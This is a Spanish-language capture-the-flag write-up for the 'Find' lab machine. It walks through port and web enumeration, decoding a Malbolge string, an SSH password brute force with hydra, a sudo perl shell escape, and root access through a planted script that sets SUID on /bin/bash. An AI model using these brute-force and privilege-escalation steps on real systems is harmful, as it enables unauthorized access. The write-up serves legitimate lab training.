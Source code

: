 # Maquina find Hackmyvm
```
ip: 10.10.10.93
ports : 22 80
```
## Enumeracion de puertos y Servicios

~~~
# Nmap 7.92SVN scan initiated Wed Jun 15 16:02:59 2022 as: nmap -p- -sCV -T4 -v -n -oN targeted -oX taargetedXML 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6ef79004840dcd1e5d2edab151d9bf57 (RSA)
|   256 395a6638f7649a94ddbcb6fbf8e73f87 (ECDSA)
|_  256 8c26e72662771640fbb5cfa61ce0f69d (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:11:31:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 15 16:03:19 2022 -- 1 IP address (1 host up) scanned in 20.00 secon
~~~

# Enumeracion de archivos y carpetas


[16:24:44] 200 -   10KB - /index.html
[16:24:47] 403 -  276B  - /icons/      
[16:25:10] 200 -   34KB - /cat.jpg              
[16:25:16] 200 -  626B  - /manual/           
[16:25:16] 301 -  311B  - /manual  ->  http://10.10.10.93/manual/
[16:26:06] 200 -   13B  - /robots.txt  


En robots.txt nos pone que busquemos al usuario. --> find user :)

tenemos una imagen que contiene un codigo raro

```bash
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

se puede compilar en esta pagina , para dar con ella tela
~~~
http://www.malbolge.doleczek.pl/
~~~

conseguimos un nombre de usuario y con hydra conseguimos el password



❯ hydra -l xxxxxxx -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.93 -f -t 64
Hydra v9.4-dev (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-15 16:22:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.10.93:22/
[22][ssh] host: 10.10.10.93   login: xxxxxxx   password: xxxxxxxx
[STATUS] attack finished for 10.10.10.93 (valid pair found)
1 of 1 target successfully completed, 1 valid password found


##User Pivoting

Del usuario xxxxxxx --> kings

Con sudo -l podemos ejecutar perl en gtfobins encontramos la manera de ejecutar una bash.

~~~
xxxxxx@find:~$ sudo -l
[sudo] password for missyred: 
Matching Defaults entries for xxxxxxx on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User xxxxxx may run the following commands on find:
    (kings) /usr/bin/perl
xxxxxxxx@find:~$ sudo -u kings  perl -e 'exec "/bin/bash";'
~~~

### Escalada de Privilegios

accedemos como el user kings y encotramos la primera flag

con sudo -l podemos ejecutar un script pero no esta.

kings@find:~$ sudo -l
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh


Nos vamos a la carpeta opt y veremos que tenemos permisos de escritura creamos la carpeta boom y el archivo boom.sh

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permisos chmod +x boom.sh y lo ejecutamos --> sudo -u root /opt/boom/boom.sh

Con bash -p accedemos como root.
~~~
kings@find:~$ bash -p
bash-5.0# id;whoami;hostname
uid=1002(kings) gid=1006(kings) euid=0(root) groups=1006(kings),1005(kingg)
root
find
bash-5.0#
~~~
